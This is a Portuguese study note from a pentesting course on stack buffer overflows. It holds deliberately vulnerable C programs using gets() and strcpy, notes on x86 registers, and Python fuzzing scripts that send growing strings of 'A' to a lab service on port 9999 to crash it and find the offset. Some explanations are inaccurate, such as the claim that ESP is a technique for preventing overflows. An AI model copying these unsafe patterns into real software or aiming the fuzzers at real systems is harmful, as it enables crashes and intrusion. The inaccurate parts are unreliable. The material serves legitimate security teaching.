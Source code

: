 ```yaml
---
tags:
  - ENG_REVERSA
links: https://xpsec.academy/home/course/buffer-overflow-para-pentesters/3
---
```

O **Buffer Overflow** é uma vunerabilidade que ocorre quando escrevemos informações em endereços de memória do buffer na qual não deveriamos.
# Exemplo básico de execução

```c
#include <stdio.h>
#include <strings.h>

int main() {
        char password[10]="NOTHING";
        char checkpass[10];

        printf("Digite a senha correta:");
        gets(checkpass);

        if(strcmp(checkpass,password)==0) {
                printf("\nSenha valida!\n");
        }
        else{
                printf("\nSenha errada!!\n");
        }
        return 0;
}
```

# Registradores Assembly

- **EIP - Extended Instruction Pointer**  - É usado no processador Intel para ==armazenar o endereço da *próxima instrução* a ser executada no programa==.

O registrador EIP é ==*atualizado* automaticamente a cada execução de uma instrução==, para que apontando para a próxima instrução no fluxo do programa.

Por exemplo, suponha que temos o seguinte código em Assembly:

```assembly
MOV AX, 5
MOV BX, 3
ADD AX, BX
```


Ao executar a primeira instrução (MOV AX, 5), o endereço da próxima instrução a ser executada (MOV BX, 3) é armazenado no registrador EIP. Quando a segunda instrução (MOV BX, 3) é executada, o endereço da próxima instrução (ADD AX, BX) é armazenado no registrador EIP, e assim por diante.

- **ESP** - Extended Stack Pointer - É uma técnica utilizada para evitar problemas de pilha (buffer overflow). Em vez de utilizar apenas um registro para o ponteiro da pilha, o ESP utiliza um par de registros: EBP (Extended Base Pointer) e ESP.

EBP é usado como o ponteiro base para a pilha e, ao mesmo tempo, armazena o endereço do registro EBP antes de seu valor ser modificado. Assim, o registro EBP sempre aponta para o endereço onde o ponteiro base foi armazenado anteriormente.

- **JMP** - JUMP - Permite realizar saltos condicionais e incondicionais. Essa instrução é importante porque permite que você controle o fluxo de execução do programa, fazendo com que ele siga um caminho específico, dependendo das condições especificadas.

```assembly
section .data
 value1 db 10
 value2 db 20

section .text
 global _start

_start:
 ; Comparar value1 e value2
 mov al, [value1]
 cmp al, [value2]

 ; Saltar para label1 se value1 for menor que value2
 jl label1

 ; Se value1 não for menor que value2, fazer o que está aqui
 ; ...

 ; Fim do programa
 mov eax, 1
 int 0x80

label1:
 ; Se value1 for menor que value2, fazer o que está aqui
 ; ...

 ; Fim do programa
 mov eax, 1
 int 0x80
```

# Entendendo o Fluxo

```c
#include <stdio.h>
#include <strings.h>

void func(char *str) {
    char buffer[5]; //Função se inicia com o 
    strcpy(buffer, str)

}

void main(int argc, char *argv[]) {
    func(argv[1]);
    printf("%s\n","Executou normalmente");
}
```

A função `func` copia a string fornecida pelo usuário para um buffer de tamanho **5**. Se a string fornecida pelo usuário tiver mais de 5 caracteres, a função `strcpy` irá copiar todos os caracteres, resultando no estouro de buffer.

# Fuzzing

Na máquina alvo, vamos analizar o fluxo por meio de algumas ferramentas: 
- **Immunity Debugger**
- **brainpan**
- **Windows 7 Utimate**

![[Pasted image 20231125015151.png]]

Agora, vamos escrever o código que fará o bufferoverflow na aplicação vulnerável. Para esse teste, será o seguinte código em python:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.0.108"
port = 9999
timeout = 10
prefix = ""

string = prefix + "A" * 200

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Neste exemplo, o script tenta conectar a um servidor (definido pelo IP e porta) e enviar uma string para o servidor. A string começa com o *prefixo* (que neste caso está vazio) e depois é **seguida por 200 "A"s**.

A string é então enviada ao servidor e o script aguarda uma resposta do servidor. Se a **resposta for recebida com sucesso, a string é atualizada adicionando mais 100 "A"s e o processo é repetido** até crashar a aplicação, causando o bufferoverflow! 

# Offset
Desta vez, vamos entender exatamente onde a aplicação crasha com uma pequena modificação no código anterior:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.200.53"
port = 9999
timeout = 10
prefix = ""
string = "A" * 700

try:
   with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
except:
   print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
   sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```

